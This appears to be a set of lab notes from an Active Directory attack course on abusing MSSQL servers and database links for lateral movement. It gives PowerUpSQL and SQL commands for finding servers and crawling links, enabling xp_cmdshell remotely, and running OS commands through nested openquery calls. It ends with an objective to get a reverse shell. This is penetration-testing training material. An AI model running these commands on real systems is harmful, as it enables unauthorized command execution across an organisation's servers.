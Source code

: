 # MSSQL Servers

• MS SQL servers are generally deployed in plenty in a Windows domain. 

• SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles. 

• For MSSQL and PowerShell hackery, lets use PowerUpSQL https://github.com/NetSPI/PowerUpSQL

#### Discovery (SPN Scanning) 
```powershell 
Get-SQLInstanceDomain 
```
####  Check Accessibility
```powershell
Get-SQLConnectionTestThreaded 
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded - Verbose 
```

#### Gather Information 
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

• A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. 

• In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. 

• Database links work even across forest trusts.

#### Look for links to remote servers 
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose 
```
##### Or
```sql
select * from master..sysservers
```

#### Enumerating Database Links - Manually 
• Openquery() function can be used to run queries on a linked database
```sql 
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

#### Enumerating Database Links - Crawls (Nested Link Enumeration)
```powershell 
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```
##### or 
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')
```

#### Executing Commands 

- On the target server, either xp_cmdshell should be already enabled; 
- Or if rpcout is enabled (disabled by default), xp_cmdshell can be enabled using:
```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

#### Executing Commands by Crawl (Nested Database Links)
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"
```
##### or 

From the initial SQL server, OS commands can be executed using nested link queries: 
```sql 
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

# Learning Objective 22

Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.